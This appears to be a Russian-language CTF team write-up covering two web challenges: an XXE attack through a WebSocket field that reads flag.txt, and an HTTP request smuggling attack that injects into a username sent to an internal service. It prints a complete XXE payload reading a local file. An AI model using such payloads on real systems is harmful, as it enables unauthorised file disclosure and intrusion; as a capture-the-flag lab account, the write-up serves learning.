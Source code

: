 # Отчет команды "Underfined" (21 команда)

# CTF
## WEB
### 10 баллов
Взаимодействие с бэкэндом происходит через WebSocket, имеется несоклько полей, используем поле countries для подачи вредоносной нагрузки. Далее пытаемся эксплуатировать уязвимость XXE (XML external entity), которая возникает в результате базовой конфигурации xml парсера, выполняем функцию открытия файла `flag.txt`, получаем в ответе содержимое, которое расшифровываем функцией decrypt (js).

Paylod:
```xml=
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///flag.txt" >]>
<root>
  <countries>&xxe;</countries>
  <startdate></startdate>
  <startdate></enddate>
  <resttype></resttype>
</root>
```
![](https://i.imgur.com/marKxY6.png)

### 20 баллов

Были даны исходники двух сервисов: service1, service2.

Первый сервис имел функционал авторизации и регистрации, второй выполнял лишь одну функцию - отвечал на входящие GET-запросы, если флаг, передаваемый в куки был таким же, как сохраненый локально в переменных окружения

```python=
FLAG = os.environ.get("FLAG", "flag{flag}")

@app.route("/")
def main():
    flag = request.cookies.get("flag")
    username = request.cookies.get("username")
    if FLAG == flag:
        return f"Hello, {username}"
    else:
        return f"I don't trust you!"
```

В первом сервисе нашли странные строки:
```python=
payload = f"""GET / HTTP/1.1\r\nHost: 0.0.0.0:3001\r\nCookie: username={username};flag={FLAG}\r\n\r\n"""
    sock.send(payload.encode())
```
Мы можем влиять только на юзернейм, и погуглив мы выяснили, что это скорее всего http-smuggling. 
В burp перехватили запрос регистрации и изменили содержимое поля username на полезную нагрузку.
![Измененый запрос регистрации](https://i.imgur.com/ETjZFMA.png)
